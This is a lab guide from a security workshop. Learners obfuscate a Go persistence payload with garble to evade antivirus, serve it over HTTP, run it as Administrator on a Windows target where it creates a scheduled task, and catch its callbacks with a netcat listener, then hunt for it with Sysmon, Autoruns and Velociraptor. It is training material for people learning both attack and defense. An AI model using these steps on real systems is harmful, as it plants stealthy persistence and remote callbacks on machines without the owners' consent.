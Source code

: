 # Scheduled Tasks Workshop Instructions


## Create the payload.

1. In the Attack Desktop, open a terminal, navigate to the  ironcat_attack/c2/ichttpc2 folder.
`cd /home/pslearner/workshop/ironcat_attack/persistence/scheduled_tasks`

2. Notice the already compiled client.exe file.  Check it's md5 hash using md5sum.
`md5sum icschtasks.exe`

3. Now use garble to generate a new version with obfuscation.
`garble -tiny -literals -seed=random build -ldflags='-s -w' icschtasks.go`

4. Time to move the payload over to the Windows Target. Host the file using python http simple server.
`python3 -m http.server`

5. Use the drop down in the top left to connect to the Windows Target device.

6. Open a firefox browser window and browse to http:172.31.24.10:8000

7. Click **icschtasks.exe** to download it to the device.

8. If there are warnings from smart screen, acknoledge them and choose "keep anyway"
Note: this is not the same service as windows defender, it is an artifact of us using the browser to move it over, not the payload being caught by anti-virus.

## Setup Listener And Run Persistence

The payload will generate persistence with a scheduled task and call back out to prove it. But you have to be listening.

1. On the Attacker Desktop, open a new terminal window.
2. Run a net cat listnener on port 666.
`sudo nc -lvnp 666`
3. Switch back to the Windows Target.
4. Use the desktop icon for CMD. Right click, and choose 'Run As Administrator'

5. Change directory to the downloads folder. (This one is a little tricky.)
`cd C:\Users\pslearner.PS-WIN-1\Downloads`

6. Run the payload. With arguments.
`icschtasks.exe 1 1`
Note: Unless something has changed significantly for the worse for my workshop, you should have ZERO notifications from anti-virus.

7. Swap back to your Attack Desktop, inpsect the terminal where you ran the server executable. You will see connections from the persistence after about a minute or so..  It will attempt again every minute or so, you will need to restart the netcat listener to catch it a gain. No interaction is required.

This is clearly simulated, popups would not normally happen, and you wouldn't normally have this much information about what caused the persistence.  Now you should use the tools on the device to track down what exactly is going on here. 

Some tools that may be helpful for this are:
- Sysmon Logs in Windows Event Viewer or with powershell
- Hunt for persistence with Autoruns
- Use velociraptor queires for persistence

Questions you want to answer here include:

What exactly did the executable do?

What are names of files, where are they, and what do they do.

What is the name of the scheduled task, and how could you detect it as malicous in an enterprise environment.

- [IOCs](./schtasks_IOCs.md)


[Become The Threat Home](../../../RSAC23-Become-The-Threat/README.md)
